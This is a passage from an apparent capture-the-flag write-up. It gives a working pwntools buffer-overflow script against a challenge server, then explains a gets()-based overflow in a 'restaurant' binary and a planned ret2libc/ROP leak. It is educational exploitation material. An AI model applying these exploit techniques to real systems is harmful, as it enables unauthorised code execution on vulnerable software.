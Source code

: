 Final script:

```py
from pwn import *

p = remote('34.159.182.195' , 30108 )
flag_func = 0x400767
RET = 0x4007d4
p.sendline(b'A' * (304 + 8) + p64(RET) + p64(flag_func))

p.interactive()

```

## Bistro

Bistro was the second pwn challenge in the event. we are given a simple `restaurant` binary.
When we run it, we are shown with a menu:
```
$ ./restaurant
==============================
              MENU             
==============================
1. Chessburger...............2$
2. Hamburger.................3$
3. Custom dinner............10$
>> 
```
Entering `1` or `2` calls exit. so we call `3`, which calls this function:

```c
__int64 custom()
{
  char v1[112]; // [rsp+0h] [rbp-70h] BYREF

  printf("Choose what you want to eat:");
  gets(v1);
  gets(v1);
  return 0LL;
}
```

As we can see, thats a simple buffer overflow. this is different from the first challenge, because this time there is no win function. which requires us to perform a `ret2libc` attack, to call `system` from `libc` itself.

Firstly, I took the libc file from the next challenge , `bistrov2`, which was `libc-2.27.so`.

Secondly, in order to call functions from `libc`, we would need `libc` leak.
The most known way of doing it is by crafting a `rop-chain` which calls `puts`, which is already in the binary's `got` (so we don't need a leak for that), and providing it any pointer which contains a libc address inside it.

For that, we would need a `pop rdi; ret` gadget, so we can put whatever we want inside the `rdi` register, which is the first parameter of any function, and then we can simply call `puts` and print whatever inside this pointer.
